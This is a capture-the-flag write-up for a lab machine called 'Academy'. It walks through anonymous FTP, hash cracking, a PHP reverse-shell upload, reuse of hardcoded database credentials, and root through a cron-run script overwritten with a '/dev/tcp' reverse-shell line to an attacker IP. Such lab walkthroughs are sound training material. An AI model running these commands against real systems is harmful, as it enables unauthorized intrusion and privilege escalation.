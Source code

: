 # Academy machine writeup

Starting with nmap scan we have three ports open 21 22 80 for ftp ssh http

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/76c63fa9-0903-4491-b0b6-0b3967847799)

let's enumerate ftp. Let's see if it provides anonymous login

![ftp](https://github.com/moataz-bellah/writeups/assets/47069499/8d375b8c-4015-4b4e-8807-f9d375e91ea0)

Great it does provide anonymous login. We have an interesting file "note.txt". Check that file

![note](https://github.com/moataz-bellah/writeups/assets/47069499/9cd0569b-37eb-432e-b655-0ac8f41ad4d2)

It has inssert query, ok we have good findings like user_id and password hash. Crack the hash using online website like [LINK](https://crackstation.net/).  
Yes we cracked the hash and it is "student", but how we can use that credential. Let's do some directory busting using ffuf. Why ffuf, because ffuf doesn't search inside any directory.
```
ffuf -u http://192.168.0.105/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: academy

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: phpmyadmin

```
We found two paths /academy and /phpmyadmin. Let's try the credential we found in phpmyadmin, but it didn't work and it seems to be not vulnerable to sql injection, let's go to /academy. 

![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/6a8fda7f-287b-4de8-ae98-c516ae16f97b)

Great we are in, ok we are looking for a way to get a shell, there is file upload we can check it if it is vulnerable to RFI.

![upload](https://github.com/moataz-bellah/writeups/assets/47069499/df76ce66-4371-4833-aa28-ce93c7b111b9)

As we saw it is a php app we can use php reverse shell from https://github.com/pentestmonkey/php-reverse-shell. Before we upload the shell we need to set netcat to listen to any incoming connections.
```
sudo nc -nvlp 1234
```
Upload the file

![netcat](https://github.com/moataz-bellah/writeups/assets/47069499/59faf962-7311-4dfb-a177-3da285d1e0a8)

Boom we have access, go to home
```
$ cd /home
$ ls
grimmie
```
we have grimmie user
```
cd grimmie
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
```
we have interesting file "backup.sh" but we can't execute it since we are www-data, we need to be grimmie, leave it now and continue exploring the server. Let's explore the website code files looking for any hardcoded credentials.
```
$ cd /var/www/html/academy
admin                   enroll-history.php  my-profile.php
assets                  enroll.php          pincode-verification.php
change-password.php     includes            print.php
check_availability.php  index.php           studentphoto
db                      logout.php
```
Inside admin/includes, there is a hardcoded credentials for mysql database
```
$ cd admin
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```
Great we have username "grimmie" and password "My_V3ryS3cur3_P4ss", let's try to switch to grimmie
```
$ su grimmie
su grimmie
Password: My_V3ryS3cur3_P4ss

grimmie@academy:/var/www/html/academy/admin/includes$ whoami
grimmie
grimmie@academy:/var/www/html/academy/admin/includes$
```
# Privilege Escalation
Ok, get back to backup.sh, it seems that file executes each period of time, we need to make sure of that. Let's edit backup.sh and make it create a file
```
$ echo -e '#!/bin/bash \ntouch test' > backup.sh
```
We wait for a moment and see if something changes.
```
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 test
```
Great it worked, we can use that and get shell and get root privilege
```
$ echo -e '#!/bin/bash \nbash -i >& /dev/tcp/192.168.0.104/4444 0>&1' > backup.sh
```
Let's set netcat to listen on port 4444 and wait for any connection
```
sudo nc -nvlp 4444
```

![root_shell](https://github.com/moataz-bellah/writeups/assets/47069499/fa475814-fe12-4614-aa8a-0afe54bcf2e4)

Yeah we are root now.
